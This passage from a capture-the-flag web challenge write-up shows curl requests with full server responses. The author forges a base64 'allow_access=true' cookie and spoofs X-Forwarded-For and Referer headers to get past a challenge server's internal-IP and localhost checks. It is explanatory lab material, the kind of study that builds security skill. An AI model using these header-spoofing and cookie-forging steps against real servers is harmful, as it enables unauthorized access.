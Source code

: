 Now a different `X-Note` header appeared. The server denied me because I performed the request from a **non-internal IP address**. I assume it is rational to think an "Internal IP" is the loopback IP, or `127.0.0.1`. And to send the information to the server, I used the `X-Forwarded-For` header. The `X-Forwarded-For` is used for identifying the originating IP address of a client connecting to a web server when the client is connecting through an HTTP proxy or a load balancer.

I sent the adjusted request to the server:
```
 curl -XPOST http://192.81.210.234:10005/ --cookie "identify=YWxsb3dfYWNjZXNzPXRydWU=" --header "X-Forwarded-For: 127.0.0.1" -v
```

And here's the response:
```
*   Trying 192.81.210.234...
* TCP_NODELAY set
* Connected to 192.81.210.234 (192.81.210.234) port 10005 (#0)
> POST / HTTP/1.1
> Host: 192.81.210.234:10005
> User-Agent: curl/7.58.0
> Accept: */*
> Cookie: identify=YWxsb3dfYWNjZXNzPXRydWU=
> X-Forwarded-For: 127.0.0.1
>
< HTTP/1.1 200 OK
< Date: Thu, 04 Jun 2020 10:03:24 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.4.6
< X-Note: Okay, but you're still not coming from http://localhost/.
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
<
* Connection #0 to host 192.81.210.234 left intact
```

Of course, it's another different `X-Note`. The server satisfied, but now it required me to come from `http://localhost/`. To do so, I used the `Referer` header, which is used to identify the address of the webpage linked to the resource being requested. The `Referer` header stored the address of the previous web page that made me do the current request.

So I sent the adjusted request to the server:

```
curl -XPOST http://192.81.210.234:10005/ --cookie "identify=YWxsb3dfYWNjZXNzPXRydWU=" --header "X-Forwarded-For: 127.0.0.1" --header "Referer: http://localhost/" -v
```

And here's the response:
```
*   Trying 192.81.210.234...
* TCP_NODELAY set
* Connected to 192.81.210.234 (192.81.210.234) port 10005 (#0)
> POST / HTTP/1.1
> Host: 192.81.210.234:10005
> User-Agent: curl/7.58.0
> Accept: */*
> Cookie: identify=YWxsb3dfYWNjZXNzPXRydWU=
> X-Forwarded-For: 127.0.0.1
> Referer: http://localhost/
>
< HTTP/1.1 200 OK
< Date: Thu, 04 Jun 2020 10:08:13 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.4.6
< X-Note: Hmm. Your content length () is not match with our rules, which is 10 bytes only.
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
<
```
